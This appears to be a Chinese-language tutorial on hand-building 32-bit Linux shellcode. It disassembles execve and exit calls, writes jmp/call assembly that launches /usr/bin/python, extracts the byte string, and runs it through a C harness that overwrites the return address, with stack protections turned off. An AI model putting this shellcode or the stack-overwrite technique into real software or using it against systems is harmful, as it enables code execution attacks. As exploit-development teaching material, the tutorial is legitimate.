





�1�3#构造shellcode
##0x00 编写 main.c exitfunc.c
***main***
```c
#include<stdio.h>
int main() {
    char *name[2];
    name[0] = "/usr/bin/python";
    name[1] = NULL;
    execve(name[0], name, NULL);
    return 0;
}
```
***exitfunc***
```c
#include <stdlib.h>
int main() {
    exit(0);
    return 0;
}
```
##0x01 main 反汇编
***main***
>

第3行 16位对齐  
第4行 栈顶指针下移32字节，为变量留出位置  
第5行 "/usr/bin/python"字符串地址压入esp + 0x18（24）位置  
第6行 0x0压入esp + 0x1c（28）位置  
第7行 将"/usr/bin/python"的字符串地址 mov 到 eax 寄存器  
第8行 将 NULL mov 到esp + 0x8（8）位置（第一个参数入栈，从左到右依次为name[0], name, NULL）  
第9行 将 name 地址传到edx  
第10行 将 edx 的内容，也就是 name 的地址 mov 到esp + 0x04（4）(第二个参数入栈)  
第11行 将 eax 的内容，也就是"/usr/bin/python"的字符串地址 mov 到 esp（0）（第一个参数入栈）  
第12行 call execve  
第13~行 返回，退出

***execve***
>

第1行 设置函数，同时栈顶由于 ret 入栈，ebx 入栈：esp = esp - 0x8  
第2行 NULL mov 到 edx（第三个参数，因为栈顶移动了8字节，所以地址由esp + 0x8（8）变成 esp + 0x10（16））  
第3行 将 name 的值 mov 到 ecx（第二个参数，地址由esp + 0x04（4）变成 esp + 0xc（12））  
第4行 将 &name[0]，也就是"/usr/bin/python"字符串的地址 mov 到 ebx（第一个参数，地址由 esp 变成 esp + 0x8（8））  
第5行 将 0xb mov 到 eax，调用 int 0x80 中断。  
第6~17行 执行并返回到 main 函数。

***调用 int 0x80***
- 需要将"/usr/bin/python"字符串地址 mov 到 ebx  
- name 的地址放到 ecx  
- NULL 的值放到 edx  
- 0xb 放入 eax  
- 然后调用 int 0x80 中断

##0x02 exitfunc 反汇编
***exit（0）***
>

退出函数会返回一个参数，并且最终储存在 ebx 中，如果返回 0 则预示着函数没有出错，系统 0x1 调用参数储存在 eax，然后调用 int 0x80 中断

##0x03 构造shellcode
- 将"/usr/bin/python"字符串的地址放到 ebx  
- 确保该字符串以'\0'结尾  
- 将"/usr/bin/python"地址放入 name[0]  
- 将一个四字节的 NULL 值放入 name[1]  
- name 的值放到 ecx  
- NULL 放入 edx  
- 0xb 放入 eax  
- 调用 int 0x80 中断  
- 存储 0x0 到 ebx  
- 存储 0x1 到 eax  
- 调用 int 0x80 中断

编写汇编代码：
```asm
main:
    jmp  main + 0x2f
    popl %ebx
    movb $0x0, 0xf(%ebx)
    movl %ebx, 0x10(%ebx)
    movl $0x0, 0x14(%ebx)
    movl $0x0, %edx
    leal 0x10(%ebx), %ecx
    movl $0xb, %eax
    int  $0x80
    movl $0x0, %ebx
    movl $0x1, %eax
    int  $0x80
    call main + 0x5
    .string "/usr/bin/python"
.globl main
    .type main, @function
```
执行 gcc -m32 -g -o shellcodes shellcodes.s 命令，这时得到的 shellcodes 并不能直接运行，因为系统不允许程序修改自身代码。  
执行 objdump -d shellcodes | grep -A20 &apos;&lt;main&gt;&apos; 命令。
>

编写 shellcode c 语言程序进行测试
```c
char shellcode[] = "\xe9\x2a\x00\x00\x00\x5b\xc6\x43\x0f\x00"
  "\x89\x5b\x10\xc7\x43\x14\x00\x00\x00\x00\xba\x00\x00\x00\x00"
  "\x8d\x4b\x10\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00"
  "\xb8\x01\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff\xff/usr/bin/python";

void shell() {
  int *ret; 
  ret = (int *)&ret + 2;
  (*ret) = (int)shellcode;
}

int main() { 
   shell();
   return 0;
}
```
执行 gcc -g -m32 -z execstack -fno-stack-protector shellcode.c -o shellcode 进行编译
>
